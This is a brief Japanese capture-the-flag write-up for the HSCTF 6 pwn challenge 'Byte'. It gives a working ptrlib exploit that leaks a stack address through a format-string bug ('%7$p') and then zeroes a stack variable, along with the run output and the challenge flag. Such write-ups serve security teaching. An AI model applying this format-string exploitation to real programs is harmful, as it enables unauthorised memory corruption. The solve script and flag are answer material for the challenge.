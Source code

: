 # [pwn 425pts] Byte - HSCTF 6
64ビットでいろいろ有効です。
```
$ checksec -f byte
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   84 Symbols     No	0		4	byte
```

メモリ上の2バイト書き換えられますが、FSBがあります。
スタック上の変数を1にできればフラグが手に入るので、1回目でスタックのアドレスをリークして2回目で変数を書き換えます。
```python
from ptrlib import *

#sock = Process("./byte")
sock = Socket("pwn.hsctf.com", 6666)

sock.recvuntil("byte: ")
sock.sendline("%7$p")
addr_stack = int(sock.recvuntil(" "), 16)
addr_target = addr_stack - 314
logger.info("target = " + hex(addr_target))

sock.recvuntil("byte: ")
sock.sendline(hex(addr_target)[2:])

sock.interactive()
```

```
$ python solve.py 
[+] __init__: Successfully connected to pwn.hsctf.com:6666
[+] <module>: target = 0xffa6394a
[ptrlib]$ ffa6394a has been nullified!

that was easy, right? try the next level (bit). here's your flag: hsctf{l0l-opt1mizati0ns_ar3-disabl3d}
```

# 感想
前の問題が似た問題だったのでFSBと気付きにくいかもですね。
